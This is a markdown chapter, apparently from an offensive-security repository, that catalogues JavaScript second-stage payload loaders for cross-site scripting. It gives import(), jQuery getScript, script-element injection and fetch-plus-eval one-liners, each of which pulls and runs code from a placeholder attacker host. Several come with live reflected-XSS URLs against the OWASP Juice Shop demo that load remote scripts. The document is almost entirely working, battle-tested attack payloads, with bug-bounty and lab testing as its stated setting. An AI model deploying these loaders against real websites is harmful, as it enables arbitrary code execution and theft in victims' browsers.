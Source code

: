 # Second Stage JavaScript Payload Loaders

<p align="justify">This chapter documents JavaScript payloads used to load and execute second stage payloads.</p>

<p align="justify">Although a lot of amazing online resources exist on the topic of XSS, none that i am aware of cover second stage payload loaders in more detail.</p>

* **NOTE**: this is not an exhaustive list - further payload options and options for modifying the payload exist
    * all payloads listed here are proven to work and have been battle-tested on Bug Bounty platforms
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
            * if required, deal with Content Security Policy (CSP; not covered here)
    * list may be updated with additional payloads or different variants

## `import()` - round brackets; quote; `Access-Control-Allow-Origin` required

```
import('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## [jQuery; new] `$.getScript()` - round brackets; quote; dollar

```
$.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## [jQuery; old] `jQuery.getScript()` - round brackets; quote

```
jQuery.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## `appendChild()` #1 - round brackets; quote; equal

```
with(document)body.appendChild(createElement('script')).src='//ATTACKER_WS/PATH/JS_PAYLOAD';
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement('script')).src%3D'%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js';%22%3E

## `appendChild()` #2 - round brackets; quote; equal; space

```
var js=document.createElement('script');js.type='text/javascript';js.src='//ATTACKER_WS/PATH/JS_PAYLOAD';document.body.appendChild(js);
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22var%20js%3Ddocument.createElement(%27script%27)%3Bjs.type%3D%27text/javascript%27%3Bjs.src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27%3Bdocument.body.appendChild(js)%3B%22%3E

## `fetch()` #1 - round brackets; right angle bracket; quote; equal; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(r=>r.text().then(t=>eval(t)));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(r%3D%3Er.text().then(t%3D%3Eeval(t)))%3B%22%3E

## `fetch()` #2 - round brackets; curly brackets; quote; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(function(r){return r.text().then(function(t){return eval(t);})});
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D)%3B%22%3E

## `fetch()` #3 - round brackets; curly brackets; quote; equal; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
async function g(f){o=await fetch(f);t=await o.text();eval(t);};g('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22async%20function%20g(f)%7Bo%3Dawait%20fetch(f);t%3Dawait%20o.text();eval(t);%7D;g(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E
